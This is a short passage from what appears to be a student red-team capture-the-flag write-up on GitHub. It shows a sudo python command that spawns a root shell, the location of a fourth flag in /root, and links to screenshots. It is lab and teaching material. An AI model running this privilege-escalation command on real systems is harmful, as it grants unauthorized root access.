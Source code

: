 Command: sudo python -c 'import os; os.system("/bin/sh")'

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red-Team/Root_1.png" width=40% height=40%>

**Flag 4**

Location: /root

<img src= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red-Team/Root_2.png" width=40% height=40%>
